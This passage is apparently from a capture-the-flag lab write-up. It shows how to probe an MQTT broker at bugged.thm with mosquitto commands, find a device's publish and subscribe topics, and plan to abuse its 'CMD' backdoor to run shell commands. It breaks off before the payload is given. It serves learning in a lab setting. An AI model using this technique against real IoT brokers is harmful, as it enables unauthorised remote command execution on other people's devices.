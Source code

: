 
<img width="1857" height="1006" alt="Screenshot From 2025-05-22 20-58-01" src="https://github.com/user-attachments/assets/9b268b7f-1b2e-4979-b98f-bb7f4e4f1ba1" />

Interesting — this unknown device can be interacted with, and we know the topic it subscribes to.

Let’s try sending a command:

```
mosquitto_pub -t 'yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config' -m "HELP" -h bugged.thm -d
```

We see registered commands:

```
["HELP", "CMD", "SYS"]
```

We also see two topics:

* Publish: `"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"`
* Subscribe: `"sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"`

Now let’s interact with them.

---

Open two terminals side by side.

**Terminal 1 – Subscriber:**

```
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h bugged.thm
```

This waits for published messages on the topic.

**Terminal 2 – Publisher:**

```
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "test_message" -h bugged.thm
```

Response:

```
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6...
```

<img width="1857" height="1006" alt="Screenshot From 2025-05-22 21-25-33" src="https://github.com/user-attachments/assets/1aad8ad9-5672-428f-b7f9-59e21e3dc65f" />

---

Score — there’s a **backdoor** we can exploit!

We know the ID:

```
cdd1b1c0-1c40-4b0f-8e22-61b357548b7d
```

From registered commands, we pick `"CMD"`. For the argument, let’s try `ls`.

The payload should look like this:

